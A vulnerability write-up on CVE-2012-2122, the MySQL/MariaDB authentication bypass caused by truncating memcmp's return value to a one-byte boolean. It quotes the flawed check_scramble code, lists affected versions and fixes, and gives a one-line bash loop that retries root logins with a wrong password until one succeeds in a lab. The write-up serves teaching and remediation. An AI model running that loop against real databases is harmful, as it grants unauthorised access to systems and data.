


# CVE-2012-2122 CWE-287 MySQL Authentication Bypass

## Vulnerability Background
- **Implicit Type Conversions in C**: In C, truncation occurs when a value of type `int` is converted to type `char`. Specifically, `int` types typically occupy 4 bytes (32 bits), while `char` types typically occupy 1 byte (8 bits). During conversion, only the lowest byte of the `int` value (i.e., the last 8 bits) is retained. For example, 256 (decimal), whose binary representation is `00000001 00000000` (assuming `int` is 16 bits, but usually 32 bits). When this value is converted to `char`, only the lowest byte `00000000` is retained, so the result is 0
- **memcmp()**: A function in the C standard library used to compare the contents of two memory blocks. The function compares the first `n` bytes of two memory blocks byte by byte until unequal bytes are found or all `n` bytes are compared. Function prototype: `int memcmp(const void *s1, const void *s2, size_t n);`, `s1`: pointer to the first memory block, `s2`: pointer to the second memory block, `n`: number of bytes to compare.
  - If the return value is less than 0, it means the first `n` bytes of `s1` are less than the first `n` bytes of `s2`.
  - If the return value is 0, it means the first `n` bytes of `s1` are equal to the first `n` bytes of `s2`.
  - If the return value is greater than 0, it means the first `n` bytes of `s1` are greater than the first `n` bytes of `s2`.

## Vulnerability Mechanism
When connecting to MariaDB/MySQL, the entered password is compared to the expected correct password. If handled incorrectly, even if memcmp() returns a non-zero value, MySQL will still treat the two passwords as the same. In other words, as long as you know the username and keep trying, you can log into the SQL database directly

## Vulnerability Location
At line **515** of the **sql/password.c** file, the check_scramble function is used in the MySQL database to verify whether the password hash values provided by the client are correct. It compares the client-provided hash value with the server's expected hash value through a series of hash operations and encryption operations to determine whether the password is correct.

- `scramble_arg`: Random numbers provided by the client for encryption.
- `message`: Password hash provided by the client.
- `hash_stage2`: The second-stage password hash value stored on the server side.
- `hash_stage2_reassured`: A validation hash generated through a series of hashing and encryption operations based on random numbers and password information provided by the client

```c
/*
    Check that scrambled message corresponds to the password; the function
    is used by server to check that recieved reply is authentic.
    This function does not check lengths of given strings: message must be
    null-terminated, reply and hash_stage2 must be at least SHA1_HASH_SIZE
    long (if not, something fishy is going on).
  SYNOPSIS
    check_scramble()
    scramble     clients' reply, presumably produced by scramble()
    message      original random string, previously sent to client
                 (presumably second argument of scramble()), must be 
                 exactly SCRAMBLE_LENGTH long and NULL-terminated.
    hash_stage2  hex2octet-decoded database entry
    All params are IN.

  RETURN VALUE
    0  password is correct
    !0  password is invalid
*/

my_bool
check_scramble(const uchar *scramble_arg, const char *message,
               const uint8 *hash_stage2)
{
  SHA1_CONTEXT sha1_context;
  uint8 buf[SHA1_HASH_SIZE];
  uint8 hash_stage2_reassured[SHA1_HASH_SIZE];

  mysql_sha1_reset(&sha1_context);
  /* create key to encrypt scramble */
  mysql_sha1_input(&sha1_context, (const uint8 *) message, SCRAMBLE_LENGTH);
  mysql_sha1_input(&sha1_context, hash_stage2, SHA1_HASH_SIZE);
  mysql_sha1_result(&sha1_context, buf);
  /* encrypt scramble */
    my_crypt((char *) buf, buf, scramble_arg, SCRAMBLE_LENGTH);
  /* now buf supposedly contains hash_stage1: so we can get hash_stage2 */
  mysql_sha1_reset(&sha1_context);
  mysql_sha1_input(&sha1_context, buf, SHA1_HASH_SIZE);
  mysql_sha1_result(&sha1_context, hash_stage2_reassured);
  return memcmp(hash_stage2, hash_stage2_reassured, SHA1_HASH_SIZE);
}
```

The `memcmp()` function returns an integer, indicating that the first n bytes of hash_stage2 are less than, equal to, or greater than the first n bytes of hash_stage2_reassured. If the two are equal, the password is correct and returns 0; Otherwise, a non-zero value will be returned, indicating a password error

 `memcmp()` returns an integer, while the return value of the `check_scramble` function is declared as `my_bool`, and the return value of `memcmp()` is directly used as the value of the return statement. So here, the return value of `memcmp()` is implicitly converted to `my_bool` type (i.e., `char` type). If the last byte of the nonzero value returned by `memcmp` is 0, the entire value will become 0 after converting to `char`, causing the function to return 0 (indicating the password is correct).

If the lowest byte of the `int` value returned by `memcmp()` is 0, then when converted to `char`, the entire value becomes 0. For example, suppose `memcmp()` returns a value of 256 (decimal), with its binary representation as `00000001 00000000` (assuming `int` is 16 bits, but is usually 32 bits). When this value is converted to `char`, only the lowest byte `00000000` is retained, so the result is 0, indicating the password is correct

Because hash_stage2_reassured is random, after multiple attempts it always finds a value, and when compared with hash_stage2, the lowest byte of the `int` value returned is 0, resulting in the password being considered correct

## Remediation

Upgrade Oracle MySQL to 5.1.63, 5.5.24, 5.6.6, or later, or MariaDB to 5.1.62, 5.2.12, 5.3.6, 5.5.23, or later. The corrected authentication code tests the complete `memcmp()` result for equality instead of narrowing a multi-byte nonzero return value into a one-byte boolean that can become zero.

Until upgraded, restrict the MySQL port to trusted application hosts, disable remote login for privileged accounts, and monitor for a high rate of failed authentication attempts followed by a success. Recompiling alone is not a dependable remediation because exploitability depends on the compiler, ABI, and vulnerable source expression.

## Affected Versions
Oracle MySQL 5.1.x below 5.1.63, 5.5.x below 5.5.24, and Oracle MySQL 5.6.x below 5.6.6, as well as MariaDB 5.1.x below 5.1.62, 5.2.x below 5.2.12, 5.3.x below 5.3.6, and 5.5.x below 5.5.23

## Environment Setup
Start the Docker environment with MySQL version 5.5.23, listen for port 3306, have the administrator account set to root and the password to 123456



## Vulnerability Reproduction
MySQL in Docker runs on the target machine at 192.168.233.153, and now the command is executed on another attack machine's command line

1. Directly use the mysql command to connect to MySQL on the attack machine. If you do not enter the password, it will report authentication failure;

   ```bash
   mysql -u root -p -h 192.168.233.153 -P 3306
   ```

2. Without knowing the password, run the following command on the attack machine. After a certain number of attempts, you can successfully log in to MySQL. Here, `<target-ip>` is the IP address of the target host running MySQL.

   ```bash
   for i in `seq 1 1000`; do mysql -u root -P3306 -password=bad -h <target-ip> 2>/dev/null;done
   ```



## PoC Analysis

```bash
for i in `seq 1 1000`; do mysql -u root -P3307 -password=bad -h <target-ip> 2>/dev/null;done
```

`for i in seq 1 1000; do … done` loop executes MySQL commands `seq 1 1000` generate a sequence of numbers from 1 to 1000.
In each iteration, attempts are made to connect to the MySQL database using the specified username, password, and host.
If the connection is successful, the relevant database connection information will be printed.
If the connection fails (such as incorrect password or server inaccessibility), since stderr is redirected to /dev/null, no error message will be displayed, and the next attempt will continue in a loop.

According to the vulnerability localization analysis, because hash_stage2_reassured is random, after multiple attempts it always finds a value. When compared with hash_stage2, the lowest `int` value returned is 0, resulting in the password being considered correct

## References
[sql/password.c in Oracle MySQL 5.1.x before 5.1.63, 5.5.x... · CVE-2012-2122 · GitHub Advisory Database](https://github.com/advisories/GHSA-4qx9-mwf7-7cx8)

[CVE-2012-2122: A Tragically Comedic Security Flaw in MySQL | Rapid7 Blog](https://www.rapid7.com/blog/post/2012/06/11/cve-2012-2122-a-tragically-comedic-security-flaw-in-mysql/)

[MySQL Bugs: #64884: logins with incorrect password are allowed](https://bugs.mysql.com/bug.php?id=64884)
